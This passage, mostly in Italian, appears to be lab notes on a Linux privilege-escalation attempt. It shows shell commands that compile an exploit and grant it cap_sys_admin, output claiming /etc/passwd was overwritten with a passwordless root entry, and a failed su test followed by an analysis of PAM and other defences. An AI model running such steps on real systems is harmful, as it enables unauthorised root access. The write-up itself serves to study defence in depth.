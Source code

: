 **Test exploit**:
```bash
# Compilazione
gcc -o /tmp/complete_exploit /tmp/complete_exploit.c

# Capability assignment
sudo setcap cap_sys_admin+ep /tmp/complete_exploit

# Esecuzione
/tmp/complete_exploit
```

**Risultato**:
```
✅ SUCCESS: /etc/passwd replaced!
New /etc/passwd content:
root::0:0:root:/root:/bin/bash

🎯 ROOT ACCESS ACHIEVED!
You can now: su root (no password needed)
```

**Test finale**:
```bash
# Tentativo accesso root
su root
# Password: (premere solo Enter)
# su: Authentication failure
```

### 🛡️ Defense in Depth Discovery

**Exploit fallito nonostante mount successful!**

**Investigazione**: Perché `su root` fallisce anche con passwd hijackato?

**Scoperta cruciale**: I sistemi Linux moderni hanno **multiple linee di difesa**:

1. **File system** (/etc/passwd, /etc/shadow)
2. **PAM** (Pluggable Authentication Modules)
3. **NSS** (Name Service Switch)
4. **systemd** user management
5. **Security modules** (AppArmor, SELinux)

#### Analisi PAM Configuration

```bash
# Controllo configurazione PAM per su
cat /etc/pam.d/su
```

**Output tipico**:
```
auth       sufficient pam_rootok.so
auth       required   pam_unix.so
account    required   pam_unix.so
session    required   pam_unix.so
```
